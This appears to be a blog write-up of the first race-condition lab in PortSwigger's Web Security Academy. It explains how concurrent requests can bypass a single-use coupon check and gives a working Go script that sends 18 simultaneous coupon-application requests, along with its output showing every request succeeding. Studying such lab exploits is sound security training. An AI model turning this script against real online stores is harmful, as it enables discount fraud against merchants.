





# Portswigger Web Security Academy | Race Conditions Lab #1

Hi all! Today we’ll be solving the first Race Condition lab of the PortSwigger Web Security Academy. Let’s start!

---

Before starting the lab, let me briefly explain what a race condition vulnerability is, why it happens, and how hackers exploit it.

Explaining this type of vulnerability using only words is difficult, so I want to go over the illustrations also used by PortSwigger. You can also check PortSwigger’s official documentation [**here**](https://portswigger.net/web-security/race-conditions).

Alright, say you’re a developer and your manager asks you to develop a coupon feature where users can enter their coupon codes. If the code has never been used by the user, it adds a 10% discount to their cart. Simple and neat feature. The most straightforward logic for such a feature would look like this:

1.  Check if the coupon is valid
2.  Check if the user is valid
3.  Check if user has used the coupon
4.  If it’s used, reject the request
5.  If it’s not used, apply the discount and mark the coupon so the same user can’t use it again

There’s no problem with this flow—yet. Here’s the illustration for this flow:



As you can see in the illustration, requests are serialized—in other words, they’re not processed at the same time. After request 1 is processed, then request 2 is processed by the server. But this is not how modern web applications work. Otherwise, we’d have terrible performance issues. Imagine if Google worked this way—only one user’s request could be processed at a time. If that were the case, no one could use Google services as smoothly as they do today.

So what modern systems do is start processing requests immediately after they’re made. While this improves performance and user experience, it creates a problem with the logic we explained above. Let me show the image first, and then explain the issue in more depth:



Since request 2 doesn’t wait for request 1 to finish processing, we get a race condition, and the same coupon code gets used multiple times, applying the discount more than once.


It happens because before request 1 marks the coupon as **“used”** for the user, request 2 arrives. During its check, it sees the coupon as **“not used”**, so it also applies the discount—right after request 1 is made.

To solve this issue, we need to implement some form of serialization or concurrency control. However, I’m not going to explain those approaches in this article. You can look up optimistic and pessimistic concurrency control for more details. Now let’s start solving our lab!

### Lab Description



Alright, let’s log in as the wiener user and see what we can do.

We can see the promo code in the header section. Let’s add some products to our cart, apply the coupon, and capture the HTTP request being made to the apply-coupon function.



This is the function we’ll exploit to buy the Leather Jacket. The wiener user’s balance is $50. So we need to apply the discount multiple times to reduce the $1337 price to at least $50. Using this formula:

```
1337 * (0.8)^x <= 50

What's min x ?
x = 15
```

This is the Go script we’ll use to perform the same request 15 times almost simultaneously. You don’t need to use Go, by the way—Python, Go, JavaScript… it doesn’t matter, as long as you can send multiple requests at once.

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"strings"
	"sync"
)

const (
	CONCURRENT_REQUESTS = 18
	FORM_DATA           = "csrf=rupklm4Pxc8qqrdvO8pBlXBTgzMKl1xD&coupon=PROMO20"
	SESSION             = "session=6YCdEjgvKV3T41pTbZfY55pn7aTadlvw"
	URL                 = "https://0a58005703828cd4810393fa00df008e.web-security-academy.net/cart/coupon"
)

func main() {
	// WaitGroup to track completion of goroutines
	var wg sync.WaitGroup
	// Mutex to protect shared successCount
	var mutex sync.Mutex
	// Counter for successful requests
	var successCount int

	// Launch concurrent requests
	for i := range CONCURRENT_REQUESTS {
		wg.Add(1)
		// Start goroutine for each request
		go func(requestNum int) {
			defer wg.Done()

			// fmt.Printf("[%d] Request Started\n", i)

			// Create new HTTP POST request with form data
			req, err := http.NewRequest("POST", URL, strings.NewReader(FORM_DATA))
			if err != nil {
				fmt.Printf("Error creating request %d: %v\n", requestNum, err)
				return
			}

			// Add session cookie to request headers
			req.Header.Add("Cookie", SESSION)

			// Create HTTP client that doesn't follow redirects
			client := &http.Client{
				CheckRedirect: func(req *http.Request, via []*http.Request) error {
					return http.ErrUseLastResponse
				},
			}

			// Send the request
			resp, err := client.Do(req)
			if err != nil {
				fmt.Printf("Error making request %d: %v\n", requestNum, err)
				return
			}
			defer resp.Body.Close()

			// Read response body
			body, err := io.ReadAll(resp.Body)
			if err != nil {
				fmt.Printf("Error reading response body %d: %v\n", requestNum, err)
				return
			}

			bodyStr := string(body)
			// fmt.Printf("[%d] Request completed with status: %s\nBody: %s\n", requestNum, resp.Status, bodyStr)

			// If coupon was successfully applied, increment counter
			if bodyStr == "Coupon applied" {
				mutex.Lock()
				successCount++
				mutex.Unlock()
			}
		}(i)
	}

	// Wait for all requests to complete
	wg.Wait()
	fmt.Printf("Total requests: %d\nSuccessful requests: %d\n", CONCURRENT_REQUESTS, successCount)
}

```

```
Total requests: 18
Successful requests: 18
```



After purchasing the leather jacket, the lab is solved. Thanks for reading, and have a nice day!